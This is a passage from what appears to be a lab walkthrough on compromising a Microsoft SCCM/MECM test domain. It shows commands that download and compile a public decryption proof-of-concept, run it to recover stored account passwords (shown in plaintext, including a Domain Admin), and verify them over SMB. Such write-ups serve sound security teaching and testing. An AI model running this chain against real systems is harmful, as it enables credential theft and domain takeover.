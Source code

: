 - Ok and now we will decipher the password with Adam Chester's (xpn) [gist](https://gist.github.com/xpn/5f497d2725a041922c427c3aaa3b37d1)

- Connect to MECM in RDP with myadmin user

```bash
xfreerdp /u:"myadmin" /p:"myadminpass" /v:"192.168.33.11" /cert-ignore
```

```powershell
cd C:\Users\myadmin\Desktop
# copy the gist file
curl https://gist.githubusercontent.com/xpn/5f497d2725a041922c427c3aaa3b37d1/raw/f3cc19a7a834adc9676983def23f2a1b43221b42/sccmdecryptpoc.cs -O sccmdecryptpoc.cs
# compile the file
C:\windows\Microsoft.NET\Framework64\v3.5\csc.exe /t:exe /out:sccmdecryptpoc.exe sccmdecryptpoc.cs
# and decrypt the users password
.\sccmdecryptpoc.exe <cyphered_value>
```

![sccm_decipher_password.png](/assets/blog/SCCM/sccm_uncipher_password.png)

- And we get the result for the three users found, and there is a DA user \o/

```
sccm-client-push:superman
sccm-naa:123456789
sccm-account-da:SCCM_D@-ftw_
```

- Let's verify the DA account :

```bash
nxc smb 192.168.33.10 -u sccm-account-da -p 'SCCM_D@-ftw_' -d SCCM.lab
```

![pwned.png](/assets/blog/SCCM/pwned.png)

- And we are Domain Admin :)